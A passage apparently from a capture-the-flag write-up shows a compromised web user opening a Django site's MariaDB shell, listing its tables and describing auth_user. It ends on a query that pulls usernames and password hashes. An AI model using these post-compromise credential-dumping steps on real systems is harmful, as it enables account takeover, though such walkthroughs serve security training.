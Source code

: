 Django site to enumerate database:

```console
www-data@writer:/var/www/writer2_project$ python3 manage.py dbshell
python3 manage.py dbshell
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 124117
Server version: 10.3.29-MariaDB-0ubuntu0.20.04.1 Ubuntu 20.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [dev]> show databases;
show databases;
+--------------------+
| Database           |
+--------------------+
| dev                |
| information_schema |
+--------------------+
2 rows in set (0.001 sec)


MariaDB [dev]> show tables;
+----------------------------+
| Tables_in_dev              |
+----------------------------+
| auth_group                 |
| auth_group_permissions     |
| auth_permission            |
| auth_user                  |
| auth_user_groups           |
| auth_user_user_permissions |
| django_admin_log           |
| django_content_type        |
| django_migrations          |
| django_session             |
+----------------------------+
10 rows in set (0.001 sec)

MariaDB [dev]> describe auth_user;
describe auth_user;
+--------------+--------------+------+-----+---------+----------------+
| Field        | Type         | Null | Key | Default | Extra          |
+--------------+--------------+------+-----+---------+----------------+
| id           | int(11)      | NO   | PRI | NULL    | auto_increment |
| password     | varchar(128) | NO   |     | NULL    |                |
| last_login   | datetime(6)  | YES  |     | NULL    |                |
| is_superuser | tinyint(1)   | NO   |     | NULL    |                |
| username     | varchar(150) | NO   | UNI | NULL    |                |
| first_name   | varchar(150) | NO   |     | NULL    |                |
| last_name    | varchar(150) | NO   |     | NULL    |                |
| email        | varchar(254) | NO   |     | NULL    |                |
| is_staff     | tinyint(1)   | NO   |     | NULL    |                |
| is_active    | tinyint(1)   | NO   |     | NULL    |                |
| date_joined  | datetime(6)  | NO   |     | NULL    |                |
+--------------+--------------+------+-----+---------+----------------+
11 rows in set (0.001 sec)

MariaDB [dev]> sselect username,password,is_staff,is_active from dev.auth_user;
```
